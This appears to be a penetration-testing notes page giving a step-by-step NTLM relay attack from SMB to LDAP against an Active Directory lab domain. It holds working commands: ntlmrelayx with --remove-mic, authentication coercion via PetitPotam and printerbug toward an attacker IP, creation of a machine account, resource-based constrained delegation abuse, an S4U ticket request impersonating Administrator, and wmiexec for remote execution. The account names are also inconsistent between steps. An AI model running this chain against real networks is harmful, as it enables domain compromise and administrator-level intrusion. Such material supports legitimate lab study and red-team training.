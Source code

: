 ### Relay SMB to LDAP(S)
This is only possible if **NTLMv1 is enabled** but you will need to specify `--remove-mic` flag when firing up _ntlmrelayx.py_ to set `NTLMSSP_NEGOTIATE_SIGN` flag to false. Read details explanation [here](https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)
> Relaying from SMB to the LDAP service is quite straightforward and simply requires an attacker to specify the –remove-mic flag when performing a relaying attack. Originally, this flag was added to support exploitation of the “Drop the MIC” vulnerability. However, it also has the benefit of setting the NTLMSSP_NEGOTIATE_SIGN flag to false. This allows relaying from SMB to the LDAP service to work since NTLMv1 doesn’t include a message integrity code (MIC).

1. First step is optional and 
```bash
# open socks session with ntlmrelayx.py to store SMB session on ws01 as dc01
ntlmrelayx.py -t ws01.range.net -smb2support -socks

# coerce authentication with PetitPotam.py
python3 PetitPotam.py 192.168.86.193(attacker) dc01.range.net
```
2. Now you should have socks SMB session on ws01$ as dc01$. Execute ntlmrelayx.py `stopservers` command to stop other listening ports as we no longer need them.
3. Fire up `ntlmrelayx.py` with `--remove-mic` flag targeting ldap service on dc01. _Note that the -i flag is to open an interactive ldap session_
```bash
ntlmrelayx.py -t ldap://dc01.range.net -smb2support --remove-mic -i
```
4. Use printerbug.py script to coerce spooler service as WS01$. _You can either use either a plain-text password, kerberos auth or socks session opened earlier in step1_
```bash
# password auth
python3 printerbug.py range.net/rangeadm:Password123@ws01.range.net "192.168.86.193" -no-ping -no-pass

# ntlmrelayx.py socks session
proxychains python3 printerbug.py RANGE/DC01\$@ws01.range.net "192.168.86.193" -no-ping -no-pass
```
5. Now ntlmrelayx.py should be showing a successful relaying attempt to ldap service like the following
```bash
[[..snip..]]
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.86.184, attacking target ldap://dc01.range.net
[*] Authenticating against ldap://dc01.range.net as RANGE/WS01$ SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000
[[..snip..]]
```
6. You can interact with the LDAP interactive shell by using `nc` or `telnet` to port 11000 (default)
7. In this scenario, we can abuse so many ldap feature. One of the infamous POC is abusing RBCD. Lets first create a controlled computer account using `addcomputer.py` impacket script.
```bash
addcomputer.py range.net/lowpriv:Password1234 -computer-name evilpc -computer-pass Password1234
```
8. Use the LDAP shell _set_rbcd_  to set WS01$ `msds-allowedtoactonbehalfofotheridentity` to our controlled computer evilpc$
9. Make s4u request to get a service ticket as the impersonated account
```bash
getST.py range.net/lowpc2\$:Password123 -spn http/ws01.range.net -impersonate Administrator -dc-ip 192.168.86.182
```
10. Now try wmiexec into WS01$ and win
```bash
wmiexec.py range.net/Administrator@ws01.range.net -no-pass -k
```
